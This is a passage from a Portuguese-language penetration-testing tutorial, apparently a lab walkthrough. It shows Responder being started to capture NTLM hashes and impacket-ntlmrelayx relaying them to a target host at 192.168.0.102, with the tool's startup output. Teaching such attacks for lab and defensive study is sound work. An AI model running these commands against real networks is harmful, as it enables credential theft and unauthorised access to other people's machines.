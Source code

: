 ```bash
sudo responder -I eth0 -wdv

```

![](smbrelayresponderrunning.png)

De seguida iremos utilizar uma ferramenta da _impacket_ para fazer relay da _hash_ para a outra máquina com o objectivo de ganharmos acesso sobre a mesma, para que isso seja possivel o utilizador terá de ser _local administrator_ da maquina que iremos tentar comprometer.

impacket-ntlmrelayx -t 192.168.0.102 -smb2support

```bash

┌──(kali㉿insecure)-[~]
└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections



```
